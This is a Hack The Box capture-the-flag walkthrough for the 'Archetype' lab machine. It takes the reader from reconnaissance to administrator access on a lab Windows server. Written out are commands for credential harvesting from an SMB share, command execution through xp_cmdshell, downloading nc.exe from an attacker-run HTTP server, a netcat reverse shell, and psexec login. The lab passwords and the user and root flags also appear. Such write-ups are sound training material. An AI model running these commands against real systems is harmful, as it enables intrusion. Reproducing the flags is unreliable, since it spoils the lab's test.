# Archetype
- Difficulty: Very easy 

## Connect to the machine
1. First, ensure you are connected to the Hack The Box network by configuring your VPN: `sudo openvpn [your-config-file.ovpn]`
2. Spawn the machine from the HTB dashboard. You will be assigned a target IP address.
![ip-address](img/ip-address.png)

## Task Breakdown
**1. Which TCP port is hosting a database server?**
- Run an Nmap scan to check for open ports by `sudo nmap -p- -sV -sC --min-rate 5000 [IP-Address]`. This scan reveals several open ports, including 445 (SMB) and 1433 (SQL Server), both of which are significant here.
![nmap](img/nmap.png) 
> **Answer:** 1433

**2. What is the name of the non-Administrative share available over SMB?**
- Use `smbclient` too inspect the SMB service, using `smbclient -L [IP-Address]`. We can skip password to enter as `guest` user and then see a list of sharename. Non-administrative shares don't end  with `$`.
![smb](img/smb.png)
> **Answer:** backups

**3. What is the password identified in the file on the SMB share?**
- Access `backups` with `smbclient \\\\[IP-Address]\\backups`. Once connected, list all files by `ls` and we notice there's `prod.dtsConfig` file.  
![ls](img/ls.png)
- Download this file using `get` command
![get](img/get.png)
- Use `cat` command to view its content and we have password (`M3g4c0rp123`) and also user ID (`ARCHETYPE\sql_svc`)
![dts](img/dts.png)
> **Answer:** M3g4c0rp123

**4. What script from Impacket collection can be used in order to establish an authenticated connection to a Microsoft SQL Server?**
- Found [this](https://book.hacktricks.xyz/network-services-pentesting/pentesting-mssql-microsoft-sql-server) on the Internet
> **Answer:** mssqlclient.py
 
**5. What extended stored procedure of Microsoft SQL Server can be used in order to spawn a Windows command shell?**
- Connect to SQL Server using `/usr/share/doc/python3-impacket/examples/mssqlclient.py ARCHETYPE/sql_svc:M3g4c0rp123@[IP-Address] -windows-auth`. Run `help` to view more options and `xp_cmdshell` is the most suitable answer
![xp](img/xp.png)
> **Answer:** xp_cmdshell
- Now we can excecute shellcommand like `whoami` to check 
![who](img/who.png)

**6. What script can be used in order to search possible paths to escalate privileges on Windows hosts?**
- I did some research on the Internet and found [this](https://github.com/nickvourd/Windows-Local-Privilege-Escalation-Cookbook).
> **Answer:** winPEAs

**7. What file contains the administrator's password?**
- We can use **Netcat** to connect betwwen our machine and target machine.
- Copy **netcat** excecutable file to working directory by `cp /usr/share/windows-resources/binaries/nc.exe .`
- Start a HTTP server on port 80 by `sudo python3 -m http.server 80`
![http](img/http.png)
- On target machine, run `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads; wget http://[our-IP-Address]/nc.exe -outfile nc.exe`. This command will excecute powershell on target machine: change directory to `Downloads`, download `nc.exe` file from our machine and output as `nc.exe` too.
![get-nc](img/get-nc.png)
- On our machine, if reponse sends 200 code, that means we succeed
![200](img/200.png)
- Here we will use **Reverse Shell** method to connect and listen between 2 machines
    - In our machine, run `nc -lvnp 4444`
    - In target machine, run `xp_cmdshell "powershell -c cd C:\Users\sql_svc\Downloads;.\nc.exe -nv [our-IP-Address] 4444 -e powershell.exe"`
    - If we connect successfully, we can excecute on target machine via powershell
    ![connect](img/connect.png)
- But now, if we move to `Administrator` folder, we can't do anything because access is denied, so we need to escalate privileges by using `winPEAs`.
- Download `winPEAS` excecutable file from [here](https://github.com/peass-ng/PEASS-ng/releases/tag/20241003-ae31e908), then run a HTTP server in port 80 on our machine. In target's powershell, run `wget http://[our-IP-Address]/winPEASx64.exe -outfile winpeas.exe` to get that file
![winp](img/get-winp.png)
- Now run winPEAS by `.\winpeas.exe fileanalysis` to analys files in this Windows machine. Noted that red output line **indicates a special privilege over an object or something is misconfigured.** Here we will find some suspicious files like `ConsoleHost_History.txt`
![ana](img/ana.png)
> **Answer:** ConsoleHost_History.txt

## Submit user flag
- User flag is located in `C:\Users\sql_svc\Desktop\user.txt`
![flag](img/flag.png)
- **User flag:** 3e7b102e78218e935bf3f4951fec21a3

## Submit root flag
- View `ConsoleHost_history.txt` file content using `cat` command and you will get username as `admin` and password as `MEGACORP_4dm1n!!`
![console](img/console.png)
- Now use `psexec` in Impacket collection by running `/usr/share/doc/python3-impacket/examples/psexec.py  administrator@[IP-Address]` and enter passwords. Now we can excecute as `Administrator` user   
![ps](img/psexe.png)
- The flag should be located in  `C:\Users\Adminstrator\Desktop\root.txt`  
![flag](img/flag1.png)  
- **Root flag:** b91ccec3305e98240082d4474b848528

